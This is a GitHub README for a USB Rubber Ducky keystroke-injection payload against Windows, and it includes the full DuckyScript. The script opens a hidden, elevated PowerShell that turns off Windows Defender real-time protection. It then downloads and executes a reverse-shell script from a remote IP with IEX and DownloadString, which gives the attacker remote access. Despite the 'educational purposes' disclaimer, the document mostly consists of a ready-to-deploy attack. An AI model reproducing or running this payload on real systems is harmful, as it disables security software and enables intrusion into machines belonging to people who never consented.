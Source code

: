 
# Reverse Shell Automation Script for Windows (Payload)

This script is designed to disable Windows Defender and execute a reverse shell on a target Windows machine. The script uses PowerShell commands to achieve these tasks, making it suitable for penetration testing and security assessments. **Note**: This script is intended for ethical hacking and educational purposes only. Unauthorized use of this script is illegal and unethical.

## How It Works

1. **Disable Windows Defender**: The script initiates an elevated PowerShell session to disable Windows Defender's real-time protection. This allows the execution of potentially malicious scripts without being blocked by the antivirus software.

2. **Establish a Reverse Shell**: After disabling Windows Defender, the script downloads and executes a reverse shell PowerShell script from a remote server. This connects back to the attacker's machine, giving them remote access to the target system.

## Script Breakdown

1. **Turn off Windows Defender**:
   - The script uses a combination of Windows GUI automation (via key presses) and PowerShell commands to disable Windows Defender's real-time protection.
   - It starts by opening a Run dialog (`GUI r`) and then executing a PowerShell command to disable Windows Defender.

2. **Start Reverse Shell**:
   - After disabling Windows Defender, the script opens another Run dialog to execute a PowerShell command that downloads and runs a reverse shell script from a remote server.

## Usage

1. **Preparation**:
   - Host a reverse shell script (`shell.ps1`) on a remote server that is accessible from the target machine.
   - Update the script with the appropriate IP address and path to the reverse shell script.

2. **Deploy the Script**:
   - The script can be deployed using a USB Rubber Ducky, Teensy, or other HID (Human Interface Device) attack platforms that can automate keystrokes on the target machine.

3. **Run the Script**:
   - Plug the device into the target machine.
   - The script will execute automatically, turning off Windows Defender and establishing a reverse shell.

## Example Script

```powershell
REM Turn off Windows Defender and start reverse shell
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
DELAY 1000
REM if you need administrator [left, enter and delay 1000]
LEFT
ENTER
DELAY 1000
ALT y
DELAY 1000
GUI r
DELAY 100
STRING powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.15/shell.ps1');"
ENTER
STRING exit
ENTER
```

## Disclaimer

This script is for **educational purposes only**. Misuse of this script can result in criminal charges and legal consequences. The authors are not responsible for any misuse or damage caused by this script. Use responsibly and always have permission before attempting to access or compromise any systems.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---
@Author: Subhash Paudel
